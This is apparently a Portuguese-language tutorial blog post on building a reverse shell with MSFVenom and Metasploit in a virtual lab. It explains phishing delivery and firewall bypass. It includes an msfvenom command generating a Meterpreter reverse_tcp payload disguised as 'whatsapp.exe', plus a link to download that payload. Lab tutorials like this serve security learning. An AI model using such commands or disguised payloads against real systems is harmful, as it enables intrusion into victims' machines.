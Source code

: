 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/02.md/
---
```


## Reverse Shell com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor do atacante. Os nomes mais comuns desse tipo de ataque são reverse-shell e backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O reverse-shell nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script malicioso contendo o payload do shell-reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo.

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell-reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 10.0.2.15 é o servidor "atacante" e a máquina Metasploitable com IP 192.168.0.16 é o cliente/vítima que vai receber o arquivo executável com o payload de conexão. 

## Gerando o payload com o MSFVenom 

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=80 -o /root/whatsapp.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/msfvenom_command.png)

Payload-Donwload: [payload](https://carineconstantino.github.io/cybersecurity/artigos/payloads/whatsapp.exe)







